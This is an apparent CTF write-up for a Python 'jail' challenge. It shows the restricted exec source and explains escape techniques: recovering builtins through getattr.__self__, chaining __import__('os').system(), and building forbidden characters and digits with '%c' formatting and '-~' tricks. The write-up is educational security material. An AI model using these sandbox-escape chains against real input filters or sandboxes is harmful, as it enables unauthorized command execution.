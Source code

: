 * Solution

#+begin_src python
import ast
print("Welcome to the jail! You're never gonna escape!")
payload = input("Enter payload: ") # No uppercase needed
blacklist = list("abdefghijklmnopqrstuvwxyz1234567890\\;._")
for i in payload:
    assert ord(i) >= 32
    assert ord(i) <= 127
    assert (payload.count('>') + payload.count('<')) <= 1
    assert payload.count('=') <= 1
    assert i not in blacklist

tree = ast.parse(payload)
for node in ast.walk(tree):
    if isinstance(node, ast.BinOp):
        if not isinstance(node.op, ast.Mod): # Modulo because why not?
            raise ValueError("I don't like math :(")
exec(payload,{'__builtins__':{},'c':getattr}) # This is enough right?
print('Bye!')
#+end_src

As the =Jail.py= said, here we have following restrictions:
- all lowercase, digits and some of signs are forbidden, except that:
  ='c' all upcase characters and ()%+:*.,[]=

  #+begin_src python :results output
    import string
    blacklist = list("abdefghijklmnopqrstuvwxyz1234567890\\;._")
    alphabet = string.ascii_letters + string.digits + string.punctuation
    print(''.join(c for c in alphabet if c not in blacklist))
  #+end_src

  #+RESULTS:
  : cABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-/:<=>?@[]^`{|}~

- only one operator < or > and = are allowed
- only the modulo(%) binary operator is permitted. However, all other operator are allowed like
  common unary operation
- there are no =__builtins__= dict, but give =c: getattr=
  
** First Exploit

Here we give ~getattr~ with character c, the first thing came into my mind is that we can recover
=__builtins__= dict by following gadgets:

#+begin_src python
  getattr.__self__
#+end_src
 
After that, we can simply chain ~__import__("os").system()~ to execute code. but within the
restriction this jail. The difficulty is *how to constructing the lowercase string*.

** Lowercase string bypass

Due to the ="%c" %= is allowed so we can leverage the [[https://www.geeksforgeeks.org/python/string-formatting-in-python-using/][Python Modulo Format Strings]] to construct the
lowercase string.

#+begin_src python :results output
  print("%c%c%c%c%c" % (104, 101, 108, 108, 111))
#+end_src

#+RESULTS:
: hello

Then, we need to bypass the digits restriction next. I was stumbled here during the CTF.

** Digits bypass

There is a trick that Python's boolean type which is a integer internally. And for all integers, we
have that ~bitwise_not(n) = -n-1 => -bitwise_not(n) = n + 1~

#+begin_src python
  N = ('A' < 'B')
  def construct_integer(n: int) -> str:
      return "-~" * (n - 1) + "N"
#+end_src

** Learned

1. we can leverage the Object' *magic method* to chain the exploits.
2. when challenge restrict the input alphabet, we should consider other construction like format string.
3. the bit operation always helpful, cause they only need =punctuations=.


